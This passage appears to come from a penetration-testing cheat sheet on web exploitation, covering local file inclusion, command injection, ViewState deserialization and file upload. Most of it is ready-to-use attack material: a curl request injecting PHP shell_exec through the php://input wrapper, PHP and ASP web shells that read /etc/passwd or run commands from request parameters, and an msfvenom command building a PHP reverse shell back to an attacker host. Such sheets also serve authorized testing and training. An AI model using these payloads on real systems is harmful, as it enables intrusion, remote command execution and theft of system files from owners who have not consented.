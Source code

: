 #### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

### Useful LFI list

```
# Linux
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```

### Tools

```
kadimus --url <URL>
python lfisuite.py
```

### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net
https://notsosecure.com/project-blacklist3r
https://github.com/0xacb/viewgen

```

| **Command**                                                                                                                                                                                          | **Description**                                    |     |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- | --- |
| `.\AspDotNetWrapper.exe --keypath .\MachineKeys.txt --TargetPagePath "/PATH" --encrypteddata VIEWSTATE --decrypt --purpose=viewstate --modifier=VIEWSTATEGENERATORVALUE -f out.txt --IISDirPath="/"` | Bruteforce encryption key for Encrypted Viewstate. |     |

### File upload

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```
| Command                                               | Description                              |
|-------------------------------------------------------|------------------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`          | Basic PHP File Read                      |
| `<?php system('hostname'); ?>`                        | Basic PHP Command Execution              |
| `<?php system($_REQUEST['cmd']); ?>`                  | Basic PHP Web Shell                      |
| `<% eval request('cmd') %>`                           | Basic ASP Web Shell                      |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell               |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                         | PHP Web Shell                            |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                                     | PHP Reverse Shell                        |